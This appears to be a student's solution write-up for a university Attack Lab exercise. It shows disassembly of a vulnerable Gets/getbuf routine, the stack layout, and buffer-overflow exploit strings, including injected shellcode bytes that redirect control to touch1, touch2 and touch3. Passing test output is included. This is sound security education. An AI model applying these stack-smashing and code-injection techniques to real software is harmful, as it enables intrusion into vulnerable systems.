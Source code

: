 # Solution

## Part I: Code Injection Attacks

### Level 1

Here is the assembly code for *Gets*:

```Assembly
0000000000401a40 <Gets>:
  401a40:	41 54                	push   %r12
  401a42:	55                   	push   %rbp
  401a43:	53                   	push   %rbx
  401a44:	49 89 fc             	mov    %rdi,%r12
  401a47:	c7 05 b3 36 20 00 00 	movl   $0x0,0x2036b3(%rip)        # 605104 <gets_cnt>
  401a4e:	00 00 00 
  401a51:	48 89 fb             	mov    %rdi,%rbx
  401a54:	eb 11                	jmp    401a67 <Gets+0x27>
  401a56:	48 8d 6b 01          	lea    0x1(%rbx),%rbp
  401a5a:	88 03                	mov    %al,(%rbx)
  401a5c:	0f b6 f8             	movzbl %al,%edi
  401a5f:	e8 3c ff ff ff       	call   4019a0 <save_char>
  401a64:	48 89 eb             	mov    %rbp,%rbx
  401a67:	48 8b 3d 62 2a 20 00 	mov    0x202a62(%rip),%rdi        # 6044d0 <infile>
  401a6e:	e8 4d f3 ff ff       	call   400dc0 <_IO_getc@plt>
  401a73:	83 f8 ff             	cmp    $0xffffffff,%eax
  401a76:	74 05                	je     401a7d <Gets+0x3d>
  401a78:	83 f8 0a             	cmp    $0xa,%eax
  401a7b:	75 d9                	jne    401a56 <Gets+0x16>
  401a7d:	c6 03 00             	movb   $0x0,(%rbx)
  401a80:	b8 00 00 00 00       	mov    $0x0,%eax
  401a85:	e8 6e ff ff ff       	call   4019f8 <save_term>
  401a8a:	4c 89 e0             	mov    %r12,%rax
  401a8d:	5b                   	pop    %rbx
  401a8e:	5d                   	pop    %rbp
  401a8f:	41 5c                	pop    %r12
  401a91:	c3                   	ret
```

Here is a rough translation to C:

```C
int Gets(char* buf) {
    gets_cnt = 0; // global variable
    for (char c = getchar(); c != -1 && c != '\n'; c = getchar()) {
        *buf = c;
        save_char(c);
        buf += 1;
    }
    *buf = 0;
    save_term();
    return 0;
}
```

This function is called within *getbuf*:

```Assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	ret
  4017be:	90                   	nop
  4017bf:	90                   	nop
  ```

Before the call to *Gets*, it basically prepares a buffer of size 0x28 (40 bytes) on the stack and pass the stack pointer as input to *Gets*.

Here is the stack organization at the point after *call*:

| address     | data        |
|------------ | ----------- |
| %rsp + 0x30 | 0x401976    |
| %rsp + 0x28 |             |
| %rsp + 0x20 |             |
| %rsp + 0x18 |             |
| %rsp + 0x10 |             |
| %rsp + 0x08 |             |
| %rsp        | 0x4017b4    |

Where *%rdi* point to *%rsp + 0x8*, *%rsp* contains the address to the instruction after the call to *Gets* in *getbuf*, and *rsp + 0x30* contains the address to the instructino after the call to *getbuf* in *test*.

Our goal is to replace *%rsp + 0x30* with the address of the *touch1* function (0x4017c0).

To do that, we can simply write 40 arbitrary characters, and then 4 bytes corresponding to the *touch1* address. See [exploit_ctarget_1.txt](exploit_ctarget_1.txt) for the solution to this problem.

Here is the output after running ctarget with the exploit string:

```bash
❯ ./ctarget -q < solution/exploit_ctarget_1_raw.txt
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 
```

### Level 2

The idea is to write a function inside the buffer, say at *%rsp + 0x08* and pass control to that function from *getbuf*. Inside that function, we write our cookie to *%rdi*, and then pass control again to the *touch2* function.

To implement two function returns that first returns to *%rsp + 0x08* and then to *touch2*, at first I thought we should put *%rsp + 0x08* to *%rsp + 0x30* (the return address of *getbuf*), and put *touch2* address above it (*%rsp + 0x38*). However, I got a segmentation fault. This is most probably due to messing with *test* function's stack.

A better way would be to push the address of *touch2* before calling *ret* from our injected code.

Note that *%rsp + 0x08* is the stack pointer after allocating `buf` in `getbuf`. We can get this value with GDB.

Here is the assembly code we need to inject to our string:

```Assembly
bf fa 97 b9 59                                              /* %rsp + 0x08: mov 0x59b997fa %edi */
68 ec 17 40 00                                              /* %rsp + 0x0d: push ox4017ec */ 
c3                                                          /* %rsp + 0x12: ret */
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 /* %rsp + 0x13: arbitrary bytes */
00 00 00 00 00 00 00 00 00                                  /* %rsp + 0x27: arbitrary bytes */
78 dc 61 55 00 00 00 00                                     /* %rsp + 0x30: %rsp + 0x08 */
```

Here is the output after running ctarget with the exploit string:
```
❯ ./ctarget -q < solution/exploit_ctarget_2_raw.txt
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:BF FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00
 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 
 ```

### Part 3

Here is the assembly code we need to inject to our string:

```Assembly
68 00 00 00 00                                              /* %rsp + 0x08: push 0x0 */ 
48 83 ec 08                                                 /* %rsp + 0x0d: sub 0x08, %rsp */ 
48 89 e7                                                    /* %rsp + 0x11: mov %rsp %edi */
68 fa 18 40 00                                              /* %rsp + 0x14: push 0x4018fa <touch3> */ 
c3                                                          /* %rsp + 0x19: ret */
00 00 00 00 00 00                                           /* %rsp + 0x1a: arbitrary bytes */
00 00 00 00 00 00 00 00                                     /* %rsp + 0x20: arbitrary bytes */
35 39 62 39 39 37 66 61                                     /* %rsp + 0x28: Cookie string representation */
78 dc 61 55 00 00 00 00                                     /* %rsp + 0x30: %rsp + 0x08 */
```
